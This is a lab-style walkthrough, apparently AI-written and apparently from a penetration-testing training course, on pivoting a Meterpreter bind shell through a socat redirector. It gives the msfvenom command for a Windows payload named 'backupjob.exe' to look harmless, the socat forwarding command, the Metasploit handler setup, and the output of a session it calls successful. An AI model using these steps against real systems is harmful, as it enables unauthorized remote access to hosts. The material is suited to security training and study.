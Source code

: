 ### Environment Overview

|   |   |   |
|---|---|---|
|Role|IP Address|Description|
|Attacker Machine|10.10.14.18|Runs Metasploit bind handler|
|Pivot Host|10.129.202.64|Ubuntu Server running socat|
|Target Machine|172.16.5.19|Windows host running bind shell payload|

|   |   |   |
|---|---|---|
|Variable|Value|Description|
|LPORT|8443|Port bind shell listens on (Windows target)|
|FORWARD TO|172.16.5.19:8443|Target for socat to forward to|
|SOCAT PORT|8080|Port socat listens on (Ubuntu/pivot host)|
|RHOST|10.129.202.64|IP of the socat host (pivot) Metasploit connects to|

---

## 1. Creating the Windows Payload

```Shell
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443
```

Generates a bind shell payload that listens on the **Windows host** at port **8443**.

---

## 2. Starting Socat Bind Shell Redirector (Pivot Host)

```Shell
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

- Listens on the **Ubuntu pivot host** at port **8080**
- Forwards traffic to **172.16.5.19:8443** (Windows bind shell)

---

## 3. Configuring & Starting the Bind multi/handler (Attacker)

```Shell
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set RHOST 10.129.202.64
set LPORT 8080
run
```

- **RHOST = 10.129.202.64** (Ubuntu pivot running socat)
- **LPORT = 8080** (where socat is listening)
- This handler connects to socat, which relays to the Windows bind shell

---

## 4. Establishing Meterpreter Session

```Plain
meterpreter > getuid
Server username: INLANEFREIGHT\\victor
```

- Upon executing the payload on the **Windows target**,
- Metasploit connects through **Ubuntu’s socat listener**,
- Which forwards to the **bind shell on Windows**,
- Resulting in a successful Meterpreter session.

---

Let me know if you’d like this exported, or if you'd like the corresponding diagram described in the original prompt recreated visually.